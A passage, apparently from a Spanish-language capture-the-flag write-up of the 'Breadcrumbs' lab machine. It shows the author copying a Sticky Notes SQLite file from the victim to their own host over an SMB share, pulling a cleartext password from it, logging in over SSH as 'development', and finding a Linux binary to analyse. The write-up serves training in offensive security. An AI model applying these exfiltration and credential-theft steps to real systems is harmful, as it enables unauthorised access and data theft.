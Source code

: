 Me transfiero el archivo SQLite, a través de un recurso compartido por SMB

De mi lado creo el servidor

```null
smbserver.py shared $(pwd) -smb2support
```

Desde la máquina víctima copio

```null
PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState> copy .\plum.sqlite-wal \\10.10.16.8\Shared\plum.plum.sqlite-wal
```

Al hacerle un strings, se pueden ver credenciales en texto claro

```null
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
```

Me conecto como este nuevo usuario

```null
ssh development@10.10.10.228
development@10.10.10.228's password:

Microsoft Windows [Version 10.0.19041.746]
(c) 2020 Microsoft Corporation. All rights reserved.

development@BREADCRUMBS C:\Users\development>       

```

En la raíz hay un directorio Development, al que ahora tengo acceso

```null
development@BREADCRUMBS C:\Development>dir
 Volume in drive C has no label.
 Volume Serial Number is 7C07-CD3A

 Directory of C:\Development

01/15/2021  04:03 PM    <DIR>          .
01/15/2021  04:03 PM    <DIR>          ..
11/29/2020  03:11 AM            18,312 Krypter_Linux
               1 File(s)         18,312 bytes
               2 Dir(s)   6,535,151,616 bytes free
```

Me lo transfiero a mi equipo y miro que tipo de archivo es

```null
file Krypter_Linux
Krypter_Linux: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ab1fa8d6929805501e1793c8b4ddec5c127c6a12, for GNU/Linux 3.2.0, not stripped
```
